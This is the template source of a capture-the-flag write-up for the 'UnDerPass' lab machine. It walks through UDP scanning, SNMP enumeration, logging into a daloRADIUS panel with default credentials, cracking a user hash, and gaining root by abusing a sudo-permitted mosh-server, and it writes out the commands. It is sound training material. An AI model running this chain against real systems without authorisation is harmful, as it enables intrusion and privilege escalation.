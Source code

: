 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("The initial enumeration was very confusing and I haven't encountered anything similar previously.")}}

{{text("What we were supposed to do is to scan the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>UDP ports</code> by using the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>-sU</code> flag.")}}

{{console("nmap -T5 -p- -sU 10.10.11.48", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-26 18:37 CET
Warning: 10.10.11.48 giving up on port because retransmission cap hit (2).
Stats: 0:04:01 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 97.34% done; ETC: 18:42 (0:00:07 remaining)
Nmap scan report for 10.10.11.48
Host is up (0.066s latency).
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 293.21 seconds")}}

{{text("The scan reveals one open port with the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>snmp</code> service running.")}}

{{text("We can use the tool named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>snmpbulkwalk</code> to communicate with the service.")}}

{{text("An example can be found here.")}}

{{link("https://www.mkssoftware.com/docs/man1/snmpbulkwalk.1.asp", "https://www.mkssoftware.com/favicon.ico", "snmpbulkwalk | communicates with a network entity using SNMP BULK requests")}}

{{console("snmpbulkwalk 10.10.11.48 -c public -v2c", "iso.3.6.1.2.1.1.1.0 = STRING: 'Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64'
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (151363) 0:25:13.63
iso.3.6.1.2.1.1.4.0 = STRING: 'steve@underpass.htb'
iso.3.6.1.2.1.1.5.0 = STRING: 'UnDerPass.htb is the only daloradius server in the basin!'
iso.3.6.1.2.1.1.6.0 = STRING: 'Nevada, U.S.A. but not Vegas'
...")}}

{{text("We find an e-mail and a string about a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>daloradius</code> server.")}}

{{header("Shell as svcMosh", "shell-as-svcmosh")}}

{{text("I searched where the admin panel of this server would be and found out it's at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://IP_ADDRESS/daloradius/app/operators</code>.")}}

{{image("../../static/writeups/underpass/images/000001.jpg")}}

{{text("I also found the default credentials which were <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>administrator:radius</code>. I tried using them and they worked.")}}

{{image("../../static/writeups/underpass/images/000002.jpg")}}

{{text("By finding the listing of user's, I obtained a hashed user password. I proceeded to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hashes.com</code> and got the password of user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>svcMosh</code>.")}}

{{image("../../static/writeups/underpass/images/000003.jpg")}}

{{text("Using this username and password combination allowed me to log in via SSH.")}}

{{image("../../static/writeups/underpass/images/000004.jpg")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Since I knew my user's password, first thing I did was checking his sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server")}}

{{text("After reading the documentation, I created a new mosh-server instance.")}}

{{console("sudo /usr/bin/mosh-server new -p 60000", "

MOSH CONNECT 4444 0JF1yAqERJKSxkD9RH6/Zw

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2935]")}}

{{text("And then used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>mosh-client</code> to connect to it.")}}

{{console("MOSH_KEY=0JF1yAqERJKSxkD9RH6/Zw mosh-client 127.0.0.1 60000")}}

{{text("By using these commands, I was able to become root on the machine.")}}

{{image("../../static/writeups/underpass/images/000005.jpg")}}

{{script()}}